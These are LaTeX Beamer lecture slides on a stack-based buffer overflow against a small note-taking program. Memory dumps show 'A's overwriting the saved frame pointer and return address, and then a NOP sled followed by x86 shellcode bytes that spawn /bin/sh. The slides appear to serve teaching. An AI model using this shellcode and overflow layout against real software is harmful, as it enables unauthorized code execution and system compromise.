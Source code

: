 \begin{frame}{Stack-based Overflow}
\begin{columns}[T]
\begin{column}{.5\textwidth}
\begin{block}{./note AAAAAAAAAAAAAAAA...}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9
main(): 80484b4, buffer:bffff314
n_ebp: bffff3e8, n_esp: bffff310
m_ebp: bffff3f8, m_esp: bffff3f4
        address    hex val	string val
n_esp > bffff310:  bffff310  ?  ?  ?  
buffer> bffff314:  41414141  A  A  A  A
        bffff318:  41414141  A  A  A  A
        bffff31c:  41414141  A  A  A  A
        bffff320:  41414141  A  A  A  A
        bffff324:  41414141  A  A  A  A
        bffff328:  41414141  A  A  A  A
        ...        ...       ...
        bffff3d0:  41414141  A  A  A  A
        bffff3d4:  41414141  A  A  A  A
endBuf> bffff3d8:  41414141  A  A  A  A
        bffff3dc:  41414141  A  A  A  A
        bffff3e0:  41414141  A  A  A  A
        bffff3e4:  0804a008        ?  
n_ebp > bffff3e8:  41414141  A  A  A  A
n_ret > bffff3ec:  41414141  A  A  A  A
        bffff3f0:  41414141  A  A  A  A
m_esp > bffff3f4:  41414141  A  A  A  A
m_ebp > bffff3f8:  41414141  A  A  A  A
m_ret > bffff3fc:  41414141  A  A  A  A
        bffff400:  41414141  A  A  A  A
Segmentation fault
	\end{verbatim}
	\end{block}
	\end{column}
\end{columns}
\framebreak
\tiny\begin{block}{Overwriting the return address}
	\begin{columns}[T]
	\begin{column}{.4\textwidth}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9,
main(): 80484b4, buffer:bffff384
n_ebp: bffff458, n_esp: bffff380
m_ebp: bffff468, m_esp: bffff464
        address    hex val   string val
n_esp > bffff380:  bffff380  ?  ?  ?  ?
buffer> bffff384:  90909090  ?  ?  ?  ?
        bffff388:  90909090  ?  ?  ?  ?
        ...        ...       ...
        bffff418:  90909090  ?  ?  ?  ?
        bffff41c:  31db3190  1  ?  1  ?
        bffff420:  b0c031c9  ?  ?  1  ?
        bffff424:  3180cdcb  1  ?  ?  ?
        bffff428:  2f6850c0  /  h  P  ?
        bffff42c:  6868732f  h  h  s  /
        bffff430:  6e69622f  n  i  b  /
        bffff434:  5350e389  S  P  ?  ?
        bffff438:  d231e189  ?  1  ?  ?
        bffff43c:  80cd0bb0  ?  ?     ?
	\end{verbatim}
	\end{column}
	\begin{column}{.4\textwidth}
	\tiny\begin{verbatim}
        bffff440:  01b0db31     ?  ?  1
        bffff444:  909080cd  ?  ?  ?  ?

\end{verbatim}
\end{column}
\end{columns}
\end{block}
\end{frame}
